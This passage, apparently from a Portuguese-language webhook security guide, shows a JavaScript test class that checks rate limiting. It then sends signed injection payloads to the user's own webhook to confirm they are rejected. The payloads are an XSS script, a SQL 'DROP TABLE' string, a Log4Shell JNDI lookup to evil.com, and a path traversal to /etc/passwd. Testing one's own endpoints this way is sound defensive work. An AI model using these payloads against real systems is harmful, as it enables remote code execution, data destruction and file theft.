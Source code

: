     const responses = await Promise.allSettled(requests);
    const rateLimitedCount = responses.filter(r => 
      r.status === 'fulfilled' && r.value.status === 429
    ).length;

    return {
      passed: rateLimitedCount > 0,
      details: {
        totalRequests: requests.length,
        rateLimitedRequests: rateLimitedCount,
        rateLimitingActive: rateLimitedCount > 0
      }
    };
  }

  async testPayloadInjection(webhookUrl, secret) {
    const maliciousPayloads = [
      { test: '<script>alert("xss")</script>' },
      { test: '"; DROP TABLE webhooks; --' },
      { test: '${jndi:ldap://evil.com/a}' },
      { test: '../../../etc/passwd' }
    ];

    const results = [];
    
    for (const payload of maliciousPayloads) {
      const signature = this.generateSignature(payload, secret);
      
      const response = await fetch(webhookUrl, {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json',
          'X-Webhook-Signature': signature
        },
        body: JSON.stringify(payload)
      });

      results.push({
        payload: payload.test,
        status: response.status,
        handled: response.status === 400 || response.status === 422
      });
    }

    return {
      passed: results.every(r => r.handled),
      details: results
    };
  }
}
\`\`\`

---

## 11. Configuração de Firewall
